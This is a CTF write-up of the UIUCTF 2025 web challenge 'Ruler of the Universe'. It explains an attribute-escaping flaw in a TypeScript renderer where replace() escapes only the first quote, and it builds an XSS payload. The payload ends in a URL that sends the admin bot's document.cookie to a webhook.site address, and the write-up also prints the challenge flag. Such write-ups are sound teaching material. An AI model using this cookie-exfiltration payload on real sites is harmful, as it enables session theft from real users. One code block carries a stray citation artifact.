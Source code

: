 ```yaml
---
title: UIUCTF 2025 - Ruler of the Universe
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - UIUCTF-2025
tags:
  - web
  - Typescript
  - XSS
authors:
  - Valenter
---
```

*With this ship I have the entire universe at my fingertips.*

Hi everyone, this is the first and easiest in a series of four sci-fi-inspired cosmic-web challenges from uiuctf. I only solved the first three, while my teammate simonedimaria worked on the fourth one, so I will only be tackling those.

First of all, let's take a second to appreciate the homepage of the challenge.
![Homepage](/uiuctf2025/ruler-of-the-universe/screenshot-1.png)

Straight out of last-century digital retrofuturism, System Shock or Neuromancer come to mind.

## Full diagnostic sweep of the mainframe

There's an *Admin Bot* link at the top, which points us in the direction of XSS.
![Admin-Bot](/uiuctf2025/ruler-of-the-universe/screenshot-2.png)

That's cool and all, but what can we actually interact with? Let's open those ominous Astra Main Frame modules at the bottom:
![Modules](/uiuctf2025/ruler-of-the-universe/screenshot-3.png)

Looks like we can leave a message for the crew, and it will appear under **Messages** at the bottom. Hmm, looks suspicious, let's pull up the ship's source code:

```ts
// module.tsx
const Module = ({
  id,
  crewMessage,
}: {
  id: number;
  crewMessage: string | null | undefined;
}) => {
  // ...
  <form class="mt-4" method="GET">
    <label for="message" class="block text-sm mb-1">
      Crew Message:
    </label>
    <input
      id="message"
      name="message"
      type="text"
      class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
      placeholder={
        crewMessage
          ? `Update your message: ${crewMessage}`
          : "Enter a message for the crew"
      }
    />
  </form>
  // ...
};
:contentReference[oaicite:2]{index=2}
```

`crewMessage` is taken directly from `index.tsx`'s `const crewMessage = new URL(req.url).searchParams.get("message");` and interpolated into the *placeholder*.
Diving deeper into how all of this gets rendered onto the page:

```ts
import { escapeHTML } from "bun";

export function render(element: any): string {
  if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
  }
//...
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          // Here is where double quotes are improperly escaped
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";

  const openTag = propString ? `<${type} ${propString}>` : `<${type}>`;
  return `${openTag}${children}</${type}>`;
}
```

The render function employs Bun's `escapeHTML`,  which makes the following replacements:
- `"` becomes `"&quot;"`
- `&` becomes `"&amp;"`
- `'` becomes `"&#x27;"`
- `<` becomes `"&lt;"`
- `>` becomes `"&gt;"`

however, it only does so for strings and numbers; for attributes, a much weaker substitution is in place:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```
but `replace` only takes care of the first instance of the character in a string.

## Initiating the breach protocol

Knowing all this, and with a bit of trial and error, we can craft a working payload:

```js
crewMessage = img"" /><img src=x onerror="alert(1)" x="
```

During serialization:
- the first `"` in `img""` becomes `&quot;`
- the second `"` closes the `img` attribute

the final markup becomes:

```js
<input … placeholder="Update your message: img&quot;"
/>
<img src=x onerror="alert(1)" x=>
```

Now it's only a matter of adapting it to our purposes:

```js
img"" /><img src=x onerror="fetch(\'%s?c=\'+encodeURIComponent(document.cookie))" x="
```

Finally, we encode it into the full URL and send a POST request with the link to the Admin Bot to visit the page and retrieve the flag, which is in the bot's cookies, by forwarding it to our webhook:

```http
https://inst-8be5f028661a5917-ruler-of-the-universe.chal.uiuc.tf/module/0?message=img%22%22%20%2F%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F66ce23cb-d0e5-4bf5-9016-58351c7f0d51%3Fc%3D%27%2BencodeURIComponent%28document.cookie%29%29%22%20x%3D%22
```

**`uiuctf{maybe_i_should_just_use_react_c49b79}`**